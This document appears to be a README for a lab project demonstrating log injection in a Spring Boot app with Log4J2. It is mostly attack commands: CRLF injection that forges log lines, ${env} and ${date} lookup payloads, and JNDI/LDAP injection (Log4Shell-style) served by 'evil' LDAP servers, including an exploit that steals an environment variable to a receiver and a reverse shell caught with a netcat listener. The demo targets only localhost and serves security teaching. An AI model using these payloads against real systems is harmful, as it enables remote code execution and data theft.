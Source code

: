 # Log Injection with Spring Boot and Log4J2

## Usage

- Run

```shell
./gradlew bootRun
```

- Request

```shell
curl http://localhost:8080/\?name\=Frodon
```

## Hack

### Using CRLF injection

```shell
curl http://localhost:8080/\?name\=Marty%0d%0a2023-09-08%2010%3A40%3A01.108%20DEBUG%202175773%20---%20%5Bnio-8080-exec-1%5D%20n.e.d.HelloController%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3A%20You%20have%20been%20pwed%0A
```

### Using date lookup

Date lookup ``${date:yyyyMMdd-HHmmss}``:

```shell
curl http://localhost:8080/\?name\=%24%7Bdate%3AyyyyMMdd-HHmmss%7D
```

### Using env lookup

Env lookup ``${env:USER}``:

```shell
curl http://localhost:8080/\?name\=%24%7Benv%3AUSER%7D
```

### Using JNDI Injection + LDAP (OpenKeyPassExploit)

- Run the evil ldap server

```shell
javac evil/ldap/OpenKeyPassExploit.java
python evil/ldap/server.py OpenKeyPassExploit
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (StealEnvUserNameExploit)

- Run the evil ldap & receiver server

```shell
javac evil/ldap/StealEnvUserNameExploit.java
python evil/ldap/server.py StealEnvUserNameExploit
python evil/receiver/server.py
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (ReverseShellExploit)

- Run the evil ldap

```shell
javac evil/ldap/ReverseShellExploit.java
python evil/ldap/server.py ReverseShellExploit
```

- Listening for incoming (evil)

```shell
nc -lv 9001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```
